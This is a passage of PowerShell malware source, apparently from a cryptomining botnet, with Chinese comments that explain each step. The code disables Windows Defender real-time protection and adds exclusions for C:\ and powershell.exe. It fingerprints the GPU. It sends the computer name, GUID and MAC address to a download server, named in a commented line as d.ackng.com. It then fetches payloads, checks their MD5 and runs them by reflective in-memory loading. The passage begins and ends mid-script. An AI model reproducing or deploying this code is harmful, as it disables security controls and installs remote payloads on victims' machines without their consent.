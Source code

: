 ```powershell
	$obj = (New-Object Web.Script.Serialization.JavaScriptSerializer).DeserializeObject((new-object net.webclient)."downloadstring"('http://127.0.0.1:43669/1/summary'))
	$mv=$obj.version
	$mip=$obj.connection.ip
	$mhr=$obj.hashrate.total-join(',')
}catch{}
# 关闭windows Defender的实时检测
try{
	Set-MpPreference -DisableRealtimeMonitoring $true
	Add-MpPreference -ExclusionPath c:\
	Add-MpPreference -ExclusionProcess c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe
}catch{}

if(($card -match "GTX|NVIDIA|GEFORCE")){$isn=1}
if(($card -match "Radeon|AMD")){$isa=1}
$params=@($comp_name,$guid,$mac)-join"&"
set-location $env:tmp
# 调用cmd执行命令的函数
function stp($gra){
	Start-Process -FilePath cmd.exe -ArgumentList "/c $gra"
}

# 提交本地信息$comp_name,$guid,$mac并下载/运行指定文件并校验其MD5
function gcf($code,$md,$fn){
	'powershell -c "'+$code+';$ifmd5='''+$md+''';$ifp=$env:tmp+''\'+$fn+''';$down_url='''+$down_url+''';function gmd5($con){[System.Security.Cryptography.MD5]::Create().ComputeHash($con)|foreach{$s+=$_.ToString(''x2'')};return $s}if(test-path $ifp){$con_=[System.IO.File]::ReadAllBytes($ifp);$md5_=gmd5 $con_;if($md5_-eq$ifmd5){$noup=1}}if(!$noup){$con=(New-Object Net.WebClient)."downloaddata"($down_url+''/'+$fn+'?'+$params+''');$t=gmd5 $con;if($t-eq$ifmd5){[System.IO.File]::WriteAllBytes($ifp,$con)}else{$noup=1}}if($noup){$con=$con_;$ifmd5=$md5_}'
}
#  与上个版本之前的区别在于 生成fnam.exe.ori文件  拷贝为 $fnam.bin.exe 并在CMD后台执行，之前是start-process 

# 反射式加载运行下载的文件
function gpa($fnam){
	'for($i=0;$i -lt $con.count-1;$i+=1){if($con[$i] -eq 0x0a){break}};iex(-join[char[]]$con[0..$i]);$bin=(New-Object IO.BinaryReader(New-Object System.IO.Compression.GzipStream (New-Object System.IO.MemoryStream(,$con[($i+1)..($con.count)])), ([IO.Compression.CompressionMode]::Decompress))).ReadBytes(10000000);$bin_=$bin.Clone();$mep=$env:tmp+'''+"\$fnam.exe.ori"+''';[System.IO.File]::WriteAllBytes($mep,$bin_+((1..127)|Get-Random -Count 100));test1 -PEBytes $bin"'+"&copy /y %tmp%\$fnam.exe.ori %tmp%\$fnam.bin.exe & %tmp%\$fnam.bin.exe"
}

# 判定/获取特定互斥锁是否存在
# try{
# 	$localIf=$flase;
#	# 创建名为Global\eLocalIf的锁,如果有不再创建
# 	New-Object Threading.Mutex($true,'Global\eLocalIf',[ref]$localIf);
# }catch{}
function gcode($fl) {
	'try{$local'+$fl+'=$flase;New-Object Threading.Mutex($true,''Global\eLocal'+$fl+''',[ref]$local'+$fl+')}catch{}'
}

$code1=gcode "If"
IEx $code1

# 如果是新创建的Global\eLocalIf则运行
# $ifp=$env:tmp+'\if.bin';
# $down_url='http://d.ackng.com';
# function gmd5($con){
#     [System.Security.Cryptography.MD5]::Create().ComputeHash($con)|foreach{
#         $s+=$_.ToString('X2')
```